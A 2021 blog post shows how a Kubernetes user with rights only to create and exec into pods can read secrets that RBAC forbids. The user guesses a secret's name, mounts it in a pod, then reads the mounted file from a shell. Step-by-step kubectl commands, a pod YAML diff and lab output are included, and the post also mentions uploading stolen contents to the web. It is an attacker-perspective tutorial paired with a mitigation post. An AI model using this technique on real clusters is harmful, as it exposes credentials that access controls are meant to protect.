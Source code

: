 ```yaml
---
author: "Suraj Deshmukh"
date: "2021-05-08T12:17:07+05:30"
title: "Access Any Kubernetes Secret"
description: "A little trickery and access any Kubernetes Secret!"
draft: false
categories: ["kubernetes", "security"]
tags: ["kubernetes", "security"]
cover:
  image: "/post/2021/05/access-k8s-secrets/forbidden.jpg"
  alt: "Forbidden"
  caption: Photo by [Kyle Glenn](https://unsplash.com/@kylejglenn) on [Unsplash](https://unsplash.com).
---
```


You can gain access to any secret that you want in Kubernetes even if you don't have RBAC permissions to get, list or view that secret. All you need is permission that allows you to do anything on pods and an ability to guess the names of secrets. With these two ingredients, here is how you can access any secret out there.

## Nasty User

Here is a user called `nastyuser` who can only do stuff on pod objects. Everything else is forbidden.
The user cannot list secrets, namespaces or deployments:

```bash
$ kubectl get ns
Error from server (Forbidden): namespaces is forbidden: User "nastyuser" cannot list resource "namespaces" in API group "" at the cluster scope

$ kubectl get secrets
Error from server (Forbidden): secrets is forbidden: User "nastyuser" cannot list resource "secrets" in API group "" in the namespace "default"

$ kubectl get deploy
Error from server (Forbidden): deployments.apps is forbidden: User "nastyuser" cannot list resource "deployments" in API group "apps" in the namespace "default"
```

The user has access to `pods` and `pods/exec` and a bunch of other things that are required for a user to have functional access to the Kubernetes:

```bash
$ kubectl auth can-i --list
Resources                                       Non-Resource URLs   Resource Names   Verbs
pods/exec                                       []                  []               [*]
pods                                            []                  []               [*]
selfsubjectaccessreviews.authorization.k8s.io   []                  []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []               [create]
                                                [/api/*]            []               [get]
                                                [/api]              []               [get]
                                                [/apis/*]           []               [get]
                                                [/apis]             []               [get]
                                                [/healthz]          []               [get]
                                                [/healthz]          []               [get]
                                                [/livez]            []               [get]
                                                [/livez]            []               [get]
                                                [/openapi/*]        []               [get]
                                                [/openapi]          []               [get]
                                                [/readyz]           []               [get]
                                                [/readyz]           []               [get]
                                                [/version/]         []               [get]
                                                [/version/]         []               [get]
                                                [/version]          []               [get]
                                                [/version]          []               [get]
```

**NOTE:** You will need at least `pods/exec` or `pods/logs` to see the content of the secret using the generic bash tools. If you don't have this extra permission, you can create a script that reads contents and uploads the contents somewhere, which you can access from over the web. For the sake of simplicity, I chose `pods/exec` as extra permission.

**NOTE:** How you gain access to a kubeconfig that has the aforementioned authorisation is out of the scope of this blog. It is possible to gain access somehow to the host and fortuitously gain access to the service account token secret that has previously mentioned permissions.

## Do what you can

Now how do you gain access to secrets with RBAC permissions only for pods? Your social skills and guesswork is going to help you find the name of the secrets. But even if you guess the name of the secret, you cannot access the secret the kubectl way since RBAC won't let you do that. So you will use the only permission you have on the Kubernetes cluster, which is creating pods.

> If you don't have access to the Kubernetes secret but know the name of the Kubernetes secret, you can simply
>
> 1) Create a pod.
> 2) Mount that secret into the pod.
> 3) Kubelet will happily give it to you regardless of your RBAC permissions to access the secret.

Let's see that in action. Start by creating a dummy pod config:

```yaml
$ kubectl run sleep --image=fedora --dry-run=client -o yaml -- sleep infinity > pod.yaml
$ cat pod.yaml
apiVersion: v1
kind: Pod
metadata:
  creationTimestamp: null
  labels:
    run: sleep
  name: sleep
spec:
  containers:
  - args:
    - sleep
    - infinity
    image: fedora
    name: sleep
    resources: {}
  dnsPolicy: ClusterFirst
  restartPolicy: Always
status: {}
```

Now add the following changes to the config. Here we are mounting a secret inside the pod at path `/access-secret`. Once the pod is up and running, we will find the mounted secret in this directory. We will replace the `secretName` field value from `GUESSED_SECRET` with something else as we keep on guessing.

```diff
diff --git pod.yaml pod.yaml
index 479a53d..2376fe3 100644
--- pod.yaml
+++ pod.yaml
@@ -13,6 +13,13 @@ spec:
     image: fedora
     name: sleep
     resources: {}
+    volumeMounts:
+    - name: hackedsecret
+      mountPath: /access-secret/
   dnsPolicy: ClusterFirst
   restartPolicy: Always
+  volumes:
+  - name: hackedsecret
+    secret:
+      secretName: GUESSED_SECRET
 status: {}
```

## Attempt 1st

Use `sed` to replace the string `GUESSED_SECRET` and create the pod out of it:

```bash
$ sed 's|GUESSED_SECRET|admin|g' pod.yaml | kubectl create -f -
pod/sleep created
```

Now check the pod:

```bash
$ kubectl get pods
NAME    READY   STATUS              RESTARTS   AGE
sleep   0/1     ContainerCreating   0          96s
```

The pod is in `ContainerCreating` state for more than a minute that means the secret does not exist, and Kubelet is failing to mount it in the pod. Describing the pod won't tell us anything because we don't have access to the events.

```bash
$ kubectl describe pod sleep | tail -3
Tolerations:     node.kubernetes.io/not-ready:NoExecute op=Exists for 300s
                 node.kubernetes.io/unreachable:NoExecute op=Exists for 300s
Events:          <none>
```

Cleanup by running the following command:

```bash
$ kubectl delete pod sleep
pod "sleep" deleted
```

## Attempt nth

Let's try a different secret name:

```bash
$ sed 's|GUESSED_SECRET|supersecret|g' pod.yaml | kubectl create -f -
pod/sleep created
```

Let's check the pod status:

```bash
$ kubectl get pods
NAME    READY   STATUS    RESTARTS   AGE
sleep   1/1     Running   0          32s
```

Yay, that means we guessed the secret name correctly. Let's gain access to the pod's terminal to find out the contents of the secrets:

```bash
$ kubectl exec -it sleep bash
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.
[root@sleep /]#
```

Now go to the place where the secret is mounted and discover what is in secret.

```bash
[root@sleep ~]# cd /access-secret/
[root@sleep access-secret]# cat data
supersecretvaluesinhere
```

## Conclusion

This post was from the perspective of an attacker. It showed you how you could use guessing the secret name to gain access to any secret you like, of course, with the help of Kubelet.

In the [next blog](https://suraj.io/post/2021/05/access-k8s-secrets-mitigation/), we will see how to detect this issue and stop it from happening.

## Background Setup

I used the following commands to create a user and assign permissions to that user:

```bash
kubectl create role pod-all --verb=* --resource=pods --resource=pods/exec
kubectl create rolebinding pod-all:nastyuser --role=pod-all --user=nastyuser
kubectl create secret generic supersecret --from-literal data=supersecretvaluesinhere
alias kubectl='kubectl --as=nastyuser'
```
